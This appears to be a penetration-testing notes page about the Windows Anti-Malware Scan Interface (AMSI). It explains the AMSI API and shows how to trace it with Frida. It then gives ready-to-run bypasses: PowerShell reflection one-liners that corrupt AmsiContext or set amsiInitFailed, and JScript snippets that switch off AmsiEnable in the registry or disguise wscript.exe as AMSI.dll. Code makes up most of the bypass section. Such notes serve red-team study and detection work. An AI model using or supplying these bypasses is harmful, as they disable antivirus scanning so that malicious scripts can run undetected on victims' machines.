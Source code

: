 ```yaml
---
description: Anti Malware Scan Interface
---
```


# AMSI

AMSI is loaded into every PowerShell process and interacts with AV \(by default Windows Defender\). Exposed API:

* AmsiInitialize
* AmsiOpenSession
* AmsiScanString
* AmsiScanBuffer
* AmsiCloseSession

AmsiScanBuffer is used to check a buffer for malicious code. In case of ret = 32768, it is indeed malicious, ret = 1 means its clean.

### Tracing AMSI with Frida

Install Frida: Install python3 and then `pip install frida-tools` .

Trace AMSI \(open PowerShell, then run the following\):

```text
frida-trace -p <powershell pid> -x amsi.dll -i Amsi*    
```

When running a PowerShell command, we can see AmsiScanBuffer being called.  On startup, Frida creates handlers - we can edit these to modify the trace behavior. We can for example log the argument buffer:

```text
log('    amsiContext: ' + args[0]);
log('    buffer: ' + Memory.readUtf16String(args[1]));
```

### Bypass: Zero out AmsiContext

AmsiContext has a PTR to a buffer that starts with the string "AMSI", if we patch this string out, AMSI is disabled.

We can do this by using Reflection to get the pointer to AmsiContext and then write zero to the buffer:

```text
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like
"*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name
-like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf =
@(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Alternatively we can also set the "AmsiInitialize"-Field to null using the same technique \(to evade AV use the same technique as above to improve it\):

```text
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFai
led','NonPublic,Static').SetValue($null,$true)
```

### Bypass: Patch AMSI Instructions

{% embed url="https://gist.github.com/xct/b7bbe6e34c2f38ca5e297fc3cb44571b" %}

### AMSI and JScript

Each command is handled in just one session, where as with PowerShell each command has its own session. We can not access Win32 APIs from JScript so we need another way using the Registry:

```javascript
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try {
    var AmsiEnable = sh.RegRead(key);
    if(AmsiEnable!=0){
    throw new Error(1, '');
}
} catch(e) {
    sh.RegWrite(key, 0, "REG_DWORD");
    sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}"+WScript.ScriptFullName,0,1);
    sh.RegWrite(key, 1, "REG_DWORD");
    WScript.Quit(1);
}
```

Alternativly we can copy/rename wscript.exe to AMSI.dll, causing AMSI loading to fail:

```javascript
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try {
    if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll")==0){
        throw new Error(1, '');
    }
} catch(e) {
    filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
    sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}"+WScript.ScriptFullName);
    WScript.Quit(1);
}
```

